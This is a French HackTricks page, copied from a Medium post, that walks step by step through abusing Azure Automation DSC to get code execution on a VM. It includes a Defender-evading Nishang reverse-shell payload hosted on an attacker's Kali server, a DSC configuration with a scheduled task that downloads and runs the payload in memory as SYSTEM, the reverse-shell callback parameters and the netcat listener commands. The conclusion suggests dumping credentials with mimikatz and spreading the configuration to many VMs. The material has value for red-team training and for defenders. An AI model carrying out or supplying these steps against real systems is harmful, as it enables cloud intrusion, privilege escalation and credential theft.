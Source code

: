 # Az - Configuration d'état RCE

<details>

<summary><strong>Apprenez le hacking AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres moyens de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de hacking en soumettant des PR aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

**Ce post a été copié de** [**https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe**](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)

### Préparation de l'infrastructure du serveur distant (C2) <a href="#f0fa" id="f0fa"></a>

Je vais héberger une version allégée du payload Nishang Invoke-PowerShellTcp.ps1 depuis le serveur distant "40.84.7.74", qui est la machine Kali. Le nom du payload sera "RevPS.ps1". Pour éviter que le script Nishang soit supprimé par Windows Defender pour une raison quelconque (peut-être préférez-vous déposer le fichier sur le disque), j'ai ici une version allégée que vous pouvez utiliser qui contournera Defender : [https://github.com/nickpupp0/AzureDSCAbuse/blob/master/RevPS.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/RevPS.ps1). Ce sera hébergé par un simple serveur Python Simple Server sur la machine Kali.

### Étape 1 — Créer des fichiers <a href="#89de" id="89de"></a>

Nous devrons créer un autre fichier de configuration DSC. Un modèle peut être téléchargé ici : [https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1). Ce fichier de configuration utilisera la même fonction d'écriture de fichier que nous avons précédemment utilisée. Cette fois, le contenu comprend du code pour télécharger et exécuter un payload depuis notre serveur distant. De plus, nous utilisons une fonction de tâche planifiée disponible à partir du module _ComputerManagementDsc_. La fonction de tâche planifiée jouera un rôle clé dans l'exécution et nous fournira des privilèges SYSTEM plus tard.

Nous téléchargerons également un script qui sera utilisé pour publier notre configuration sur la VM. Il se trouve ici : [https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1).

Ces fichiers serviront de modèle. **Vous devrez remplir les noms de variables et les paramètres avec ce que vous utilisez**. Cela inclut les noms de ressources, les chemins de fichiers et les noms de serveurs/payloads externes que vous utilisez. Veuillez vous référer aux commentaires dans le code.

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

### Étape 2 — Zipper le fichier de configuration <a href="#c2c2" id="c2c2"></a>

Avec nos deux fichiers créés, nous zipperons le fichier **‘reverse\_shell\_config.ps1’** afin de pouvoir l'envoyer au compte de stockage
```
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
### Étape 3 — Définir le contexte de stockage et téléverser <a href="#bed9" id="bed9"></a>

Nous allons à nouveau configurer le contexte de notre compte de stockage, ce que j'ai déjà fait. J'ai déjà un conteneur nommé '**azure-pentest**', c'est donc là que je vais publier le mien :
```
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
### Étape 4 — Préparer la machine Kali <a href="#20fb" id="20fb"></a>

Dans notre machine Kali, nous pouvons simplement utiliser _wget_ pour télécharger notre payload PowerShell. Le script de reverse-shell brut est situé ici : [https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1](https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1).
```
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
```markdown
<figure><img src="../../../../.gitbook/assets/image (8) (2).png" alt=""><figcaption></figcaption></figure>

Nous devons modifier le script de reverse-shell en y ajoutant nos paramètres, afin que la VM Windows sache où se connecter une fois qu'il est exécuté. Dans mon cas, j'ajoute ce qui suit :
```
```
RevPShell -Reverse 40.84.7.73 443
```
### Étape 5 — Publier le fichier de configuration <a href="#9ad6" id="9ad6"></a>

Nous allons maintenant exécuter notre fichier de configuration. J'ai configuré le mien pour qu'il soit publié sur le Bureau pour une meilleure visualisation, cependant, il peut être publié presque partout. Après quelques minutes, nous verrons que le script de reverse-shell a été publié !

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Étape 6 — Héberger le Payload et Configurer l'Écouteur <a href="#c55f" id="c55f"></a>

Une fois que nous avons publié la configuration, nous pouvons simultanément démarrer un SimpleHTTPServer Python sur le port 80 pour héberger le payload, ainsi qu'un écouteur netcat afin de capturer la connexion :
```
sudo python -m SimpleHTTPServer 80sudo nc -nlvp 443
```
Nous constatons que la tâche planifiée a été exécutée et notre charge utile a été récupérée et exécutée en mémoire avec des privilèges de niveau **SYSTEM** !

<figure><img src="../../../../.gitbook/assets/image (1) (3) (1).png" alt=""><figcaption></figcaption></figure>

### Conclusion <a href="#1ec2" id="1ec2"></a>

Cela ouvre la porte à de nombreuses possibilités. Puisque nous avons un shell fonctionnant en tant que **SYSTEM,** nous pouvons extraire les identifiants avec mimikatz (potentiellement risqué selon la maturité de l'EDR pour les ressources cloud). Si vous extrayez des identifiants, il y a de fortes chances qu'ils puissent être réutilisés ailleurs sur différentes ressources. Enfin, un point important à retenir est que, au lieu de limiter cela à une seule VM, vous avez maintenant la capacité de potentiellement appliquer cette configuration à plusieurs VM.

Sur cette note, cela conclut nos aventures avec Azure Automation DSC ! J'espère que vous vous êtes amusés, que vous avez beaucoup appris et que vous continuerez à vous développer avec votre propre créativité.

<details>

<summary><strong>Apprenez le hacking AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres moyens de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de hacking en soumettant des PR aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
